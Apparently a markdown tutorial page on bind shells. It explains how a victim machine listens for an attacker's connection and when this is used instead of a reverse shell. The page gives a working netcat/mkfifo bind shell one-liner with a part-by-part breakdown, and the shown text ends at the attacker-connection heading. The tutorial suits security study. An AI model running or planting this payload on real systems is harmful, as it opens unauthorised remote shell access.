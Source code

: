 A **Bind Shell** is a technique where the **victim machine itself opens a port and waits (listens) for an attacker’s connection**.  
👉 When the attacker connects to that port, a shell session is opened, and the attacker can run commands remotely.  



# ⚙️ When Bind Shell is Useful?
- If the victim system **does not allow outgoing connections**, then reverse shell won’t work.  
- In that case, attacker uses **Bind Shell**, where the victim listens for connections.  

⚠️ Less popular than Reverse Shell because:  
- Victim system must keep the port open.  
- Easier for firewalls/security tools to detect.  



# 🛠️ How Bind Shell Works

1. **Victim (target system)** runs a bind shell payload.  
2. The payload makes the victim’s machine **listen on a port**.  
3. **Attacker connects** to that port using Netcat.  
4. Attacker now gets remote shell access.  



# 💣 Bind Shell Payload (Victim Side)

Example payload:
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
### Step-by-Step Breakdown
| Part of Command                          | Meaning                                                                 |
|------------------------------------------|-------------------------------------------------------------------------|
| `rm -f /tmp/f`                           | Remove any old pipe file in `/tmp/`.                                    |
| `mkfifo /tmp/f`                          | Create a new **named pipe** for communication.                          |
| `cat /tmp/f`                             | Read input data from the pipe.                                          |
| ` bash -i 2>&1`                         | Start an interactive bash shell, redirecting errors to output.          |
| ` nc -l 0.0.0.0 8080`                   | Start Netcat in **listen mode** on port `8080`.                         |
| `>/tmp/f`                                | Send output of commands back into the pipe (2-way communication).       |

👉 After running this, the target system **waits for connections** on port `8080`.  

---

# 📡 Attacker Connects to Bind Shell
